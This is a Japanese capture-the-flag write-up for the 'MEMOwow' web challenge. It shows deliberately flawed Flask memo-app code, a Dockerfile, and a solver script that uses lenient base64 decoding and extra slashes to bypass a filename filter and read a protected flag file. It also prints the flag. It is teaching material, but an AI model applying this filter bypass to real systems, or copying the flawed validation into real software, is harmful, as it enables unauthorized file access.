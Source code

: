# MEMOwow

## 問題文
素晴らしいメモアプリを作ったよ。  
覚える情報量が増えているって？？？  

[http://133.130.100.34:31415](http://133.130.100.34:31415)  

[MEMOwow.zip](files/MEMOwow.zip)  

## 難易度
**medium**  

## 作問にあたって
Base64でエンコードすると攻撃文字列になるXSSなど作りたいなと思っていました(無理)。  
仕方がないので文字列/flagがBase64で作れることを利用して問題にしました。  
もう少し自然なメモアプリにもできましたが、直前の作問で非想定解が怖いため変なメモアプリにしました。  
Base64をPythonで扱う際には、`validate=True`にしましょう。  

## 解法
URLとソースコードが渡される。  
アクセスするとメモを保存できるサイトのようだ。  
![site1.png](images/site1.png)  
メモを送信すると、メモIDが表示される。  
![site2.png](images/site2.png)  
base64されていそうなので、デコードしてみる。  
```bash
$ echo -n 'U2F0b2tpKOODuzPjg7spdg==' | base64 -d
Satoki(・3・)v
```
なんとbase64されているものがメモIDになっているようだ(覚える情報量がメモより増えている)。  
メモの読み取りはこのメモIDを用いるようだ。  
![site3.png](images/site3.png)  
![site4.png](images/site4.png)  
ソースを読むと実装は以下のようになっている。  
```python
~~~
@app.route("/", methods=["GET"])
def index():
    if not "memo" in session:
        session["memo"] = [b"Tsukushi"]
    return render_template("index.html")


@app.route("/write", methods=["GET"])
def write_get():
    if not "memo" in session:
        return redirect(url_for("index"))
    return render_template("write_get.html")


@app.route("/read", methods=["GET"])
def read_get():
    if not "memo" in session:
        return redirect(url_for("index"))
    return render_template("read_get.html")


@app.route("/write", methods=["POST"])
def write_post():
    if not "memo" in session:
        return redirect(url_for("index"))
    memo = urllib.parse.unquote_to_bytes(request.get_data()[8:256])
    if len(memo) < 8:
        return abort(403, "これくらいの長さは記憶してください。👻")
    try:
        session["memo"].append(memo)
        if len(session["memo"]) > 5:
            session["memo"].pop(0)
        session.modified = True
        filename = base64.b64encode(memo).decode()
        with open(f"./memo/{filename}", "wb+") as f:
            f.write(memo)
    except:
        return abort(403, "エラーが発生しました。👻")
    return render_template("write_post.html", id=filename)


@app.route("/read", methods=["POST"])
def read_post():
    if not "memo" in session:
        return redirect(url_for("index"))
    filename = urllib.parse.unquote_to_bytes(request.get_data()[7:]).replace(b"=", b"")
    filename = filename + b"=" * (-len(filename) % 4)
    if (
        (b"." in filename.lower())
        or (b"flag" in filename.lower())
        or (len(filename) < 8 * 1.33)
    ):
        return abort(403, "不正なメモIDです。👻")
    try:
        filename = base64.b64decode(filename)
        if filename not in session["memo"]:
            return abort(403, "メモが見つかりません。👻")
        filename = base64.b64encode(filename).decode()
        with open(f"./memo/{filename}", "rb") as f:
            memo = f.read()
    except:
        return abort(403, "エラーが発生しました。👻")
    return render_template("read_post.html", id=filename, memo=memo.decode())
~~~
```
`/write`ではなぜか`request.get_data()[8:256]`でメモを取得し、8文字以上であることをチェックした後に`session["memo"]`に追加している。  
さらに、メモをbase64エンコードしたものをファイル名にし、メモをファイルとして保存している。  
そのファイル名をメモIDとしてユーザに返している。  
`/read`ではメモIDを受け取り、base64デコードした結果が`session["memo"]`に入っている場合(自分で作成したメモである場合)のみメモIDをファイル名としてファイルを読み取っている。  
ただし、`.`や`flag`でパストラバーサルやフラグの読み取りはできないようになっている。  
Dockerfileを見ると、読み込み専用で`/var/www/memo/flag`にフラグが書かれているようだ。  
```Dockerfile
FROM ubuntu:22.04

ENV DEBIAN_FRONTEND noninteractive

RUN apt-get -y update --fix-missing && apt-get -y upgrade
RUN apt-get -y install python3 python3-pip

RUN mkdir /var/www
WORKDIR /var/www
COPY ./ ./

RUN pip3 install -r requirements.txt

ENV LANG C.UTF-8

RUN chmod 755 -R /var/www
RUN chmod 777 -R /var/www/memo
RUN chmod 644 /var/www/memo/flag
RUN chmod 644 /var/www/memo/VHN1a3VzaGk=
RUN adduser -u 1000 memowow
USER memowow

CMD ["uwsgi", "--ini", "/var/www/uwsgi.ini"]
```
まずは`session["memo"]`のチェックを無視して、`/var/www/memo/flag`を読み取ることを考える。  
`.`と`flag`を使わずに`flag`ファイルを指定できないかと考えると、一度デコードした後に再度エンコードしていることに気づく。  
入力されたファイル名を使えばよいのに不自然だ(メモアプリ全体が不自然だが)。  
文字列`flag`を含んでいないが、デコードして再度エンコードして`flag`となる入力はないだろうか？  
```bash
$ python
~~~
>>> import base64
>>> base64.b64decode("flag")
b'~V\xa0'
>>> base64.b64decode("fla@g")
b'~V\xa0'
base64.b64encode(base64.b64decode("fla@g"))
b'flag'
```
試すと`fla@g`などbase64に関連しない文字は無視されるようだ。  
これで`flag`ファイルを読み取り先として指定できるが、`session["memo"]`の問題がある。  
base64エンコードした結果がファイル名、つまり`flag`となる必要があるので、文字列`flag`をデコードしたバイト列をメモとして与えてやればよい。  
書き込みは禁止されているので`/var/www/memo/flag`は書き換えられないが`session["memo"]`には追加される。  
これで`flag`ファイルを読み取れるかと思うが、メモには8文字以上の制限がある。  
```bash
>>> base64.b64decode("flag")
b'~V\xa0'
len(base64.b64decode("flag"))
3
```
ソースコードをもう一度読むと`with open(f"./memo/{filename}", "rb") as f:`となっている。  
`open`は`/`がいくつあってもよいので、複数つけて8文字以上となるものにすればよい。  
`Incorrect padding`に注意する。  
```bash
>>> base64.b64decode("////////flag")
b'\xff\xff\xff\xff\xff\xff~V\xa0'
>>> len(base64.b64decode("////////flag"))
9
```
必然的に読み取るファイルも`////////flag`と指定する。  
以下のsolver.pyで行う。  
```python
import re
import base64
import requests

URL = "http://133.130.100.34:31415/"

session = requests.Session()

session.get(f"{URL}")

res = session.post(f"{URL}/write", data={"content": base64.b64decode(b"////////flag")})
print(f"[POST] /write: {res.status_code}")

res = session.post(f"{URL}/read", data={"memoid": "////////fla@g"})
print(f"[POST] /read: {res.status_code}")
flag = re.search("TsukuCTF23{.*?}", res.text)
print(f"[FLAG] {flag.group()}")
```
実行する。  
```bash
$ python solver.py
[POST] /write: 403
[POST] /read: 200
[FLAG] TsukuCTF23{b45364_50m371m35_3xh1b175_my573r10u5_b3h4v10r}
```
flagが得られた。  

## TsukuCTF23{b45364_50m371m35_3xh1b175_my573r10u5_b3h4v10r}
